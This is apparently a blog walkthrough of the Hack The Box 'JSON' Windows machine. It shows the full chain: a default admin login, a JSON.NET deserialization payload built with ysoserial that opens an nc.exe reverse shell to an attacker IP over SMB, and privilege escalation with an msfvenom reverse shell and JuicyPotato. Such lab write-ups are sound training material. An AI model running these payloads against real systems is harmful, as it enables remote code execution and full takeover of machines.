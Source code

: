 ```yaml
---
title: "Hack The Box - JSON"
tags: [windows,medium,ysoserial , deserialization attack , juicy potato]
categories: HackTheBox-Windows
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled.png)

## *NMAP*

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%201.png)

## *Enumerating*

⇒ There's an login page on the website, we are able to login with **`admin : admin`** credentials.

→ When we login we notice that it sends an request to /api/Account/ :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%202.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%203.png)

⇒ If we changed the Bearer: to something random we get the following errors :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%204.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%205.png)

→ We see that its performing deserialization on the json object. We can leverage this to get code execution on the system.

### *Exploiting JSON Deserialization*

⇒ We will use ysoserial to create json serialized payload :

[https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

→ Generating Payload :

**.\ysoserial.exe -g ObjectDataProvider -f Json.Net -c "net use \\10.10.14.8\enox & \\10.10.14.8\enox\nc.exe -e cmd.exe 10.10.14.8 4444" -o base64**

→ Hosting nc.exe using smb :

**smbserver.py enox . -smb2support**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%206.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%207.png)

### *Privilege Escalation to Administrator*

⇒ We see that our user has SeImpersonatePrivilege which we can exploit using JuicyPotato :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%208.png)

Link : [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)

→ Generating shell :

**msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=5555 -f exe -o reverse.exe**

→ Running juicypotato :

**.\JuicyPotato.exe -t * -p \tmp\reverse.exe -l 9001 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/JSON%20Box%207a7191ff3cb142f6a2ae60adf360bb57/Untitled%209.png)
